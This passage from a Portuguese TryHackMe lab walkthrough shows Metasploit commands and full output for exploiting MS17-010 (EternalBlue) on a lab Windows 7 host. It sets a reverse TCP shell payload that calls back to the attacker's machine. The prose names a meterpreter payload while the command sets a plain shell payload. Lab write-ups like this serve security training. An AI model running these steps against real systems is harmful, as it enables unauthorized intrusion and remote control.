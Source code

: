 Como vemos acima a opção `RHOSTS` é obrigatória, então vamos setar o valor dela utilizando o comando `set RHOSTS` e o ip da máquina alvo.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.10.79.113
RHOST => 10.10.79.113
```

Para fins didáticos, o Tryhackme pede para utilizarmos o payload `windows/x64/meterpreter/reverse_tcp`, então vamos setar ele atraves do comando:

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```

Feito isso podemos alterar o `LHOST` para o ip da nossa máquina.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.18.20.23
LHOST => 10.18.20.23
```

### **<a id="7">4. Run the exploit.</a>**

Agora que já temos todas as opções setadas, podemos executar o exploit utilizando o comando `run`.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.18.20.23:4444
[*] 10.10.79.113:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 10.10.79.113:445      - Rex::ConnectionTimeout: The connection with (10.10.79.113:445) timed out.
[*] 10.10.79.113:445      - Scanned 1 of 1 hosts (100% complete)
[-] 10.10.79.113:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.18.20.23:4444
[*] 10.10.79.113:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.79.113:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.79.113:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.79.113:445 - The target is vulnerable.
[*] 10.10.79.113:445 - Connecting to target for exploitation.
[+] 10.10.79.113:445 - Connection established for exploitation.
[+] 10.10.79.113:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.79.113:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.79.113:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.79.113:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.79.113:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.79.113:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.79.113:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.79.113:445 - Sending all but last fragment of exploit packet
[*] 10.10.79.113:445 - Starting non-paged pool grooming
[+] 10.10.79.113:445 - Sending SMBv2 buffers
[+] 10.10.79.113:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.79.113:445 - Sending final SMBv2 buffers.
[*] 10.10.79.113:445 - Sending last fragment of exploit packet!
[*] 10.10.79.113:445 - Receiving response from exploit packet
[+] 10.10.79.113:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.79.113:445 - Sending egg to corrupted connection.
[*] 10.10.79.113:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.79.113
```
